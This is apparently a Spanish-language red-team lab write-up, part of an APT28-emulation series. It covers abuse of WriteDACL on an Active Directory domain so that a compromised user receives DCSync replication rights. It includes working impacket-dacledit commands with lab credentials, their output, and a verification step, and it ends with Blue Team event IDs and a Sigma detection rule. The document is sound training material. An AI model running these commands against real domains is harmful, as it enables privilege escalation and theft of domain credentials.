


# WriteDACL Abuse — Operación IRON FOREST
## Lab-04: ACL Abuse — DCSync via WriteDACL sobre el dominio

**Operación:** IRON FOREST | **Adversario:** APT28 (Fancy Bear) | **Fase:** 04 — WriteDACL Abuse  
**Fecha:** 29/05/2026 | **Operador:** Adrián Camacho


> **Módulo M5 · Ruta: `[crítica]`**
>
> **Objetivo único:** WriteDACL sobre el dominio → autoconcederse derechos de replicación (DCSync).
>
> **Prerequisito real:** M1 (path) + M4 (auth como fin.garcia).
>
> **Habilita:** derechos de replicación → habilita DCSync (M6).
>
> **TTP:** T1222.001 · T1098

---

## FASE 04 — WriteDACL Abuse

### 4.1 Añadir DCSync rights con fin.garcia

**Objetivo:** `fin.garcia` tiene `WriteDACL` sobre `DC=atackcorp,DC=local`. Esto permite añadir ACEs de replicación sin ser Domain Admin.

```bash
impacket-dacledit atackcorp.local/fin.garcia:'Finance2024!' \
  -action write \
  -rights DCSync \
  -principal fin.garcia \
  -target-dn "DC=atackcorp,DC=local" \
  -dc-ip 10.0.2.10
```

**Output:**
```
[*] DACL backed up to dacledit-20260529-114317.bak
[*] DACL modified successfully!
```

> 📸 Captura:
> 

**Análisis:** dacledit hace backup automático de la DACL antes de modificarla — útil para restaurar en el cleanup.

---

### 4.2 Verificación de los DCSync rights

```bash
impacket-dacledit atackcorp.local/fin.garcia:'Finance2024!' \
  -action read \
  -target-dn "DC=atackcorp,DC=local" \
  -dc-ip 10.0.2.10 | grep -A3 "fin.garcia\|garcia"
```

**Output:**
```
[*] Trustee (SID): fin.garcia (S-1-5-21-768292631-183641691-1245477636-1105)
[*] ACE[15] info — ACCESS_ALLOWED_OBJECT_ACE → DS-Replication-Get-Changes
[*] ACE[19] info — ACCESS_ALLOWED_OBJECT_ACE → DS-Replication-Get-Changes-All
[*] ACE[51] info — ACCESS_ALLOWED_ACE (WriteDACL original)
```

> 📸 Captura:
> 

**Análisis:** ACE[15] = `DS-Replication-Get-Changes` + ACE[19] = `DS-Replication-Get-Changes-All` — los dos derechos necesarios para DCSync.

---

### 4.3 Detección — Blue Team

**Event IDs generados:**
- `5136` — Modificación de atributo `nTSecurityDescriptor` en objeto dominio
- `4662` — Acceso a objeto AD con derecho de replicación

**Regla SIGMA:**
```yaml
title: WriteDACL on Domain Object — DCSync Rights Added
detection:
  selection:
    EventID: 5136
    ObjectClass: 'domainDNS'
    AttributeLDAPDisplayName: 'nTSecurityDescriptor'
  filter:
    SubjectUserName|endswith: '$'
  condition: selection and not filter
level: critical
```

---

*Operación IRON FOREST — Adrián Camacho | 29/05/2026*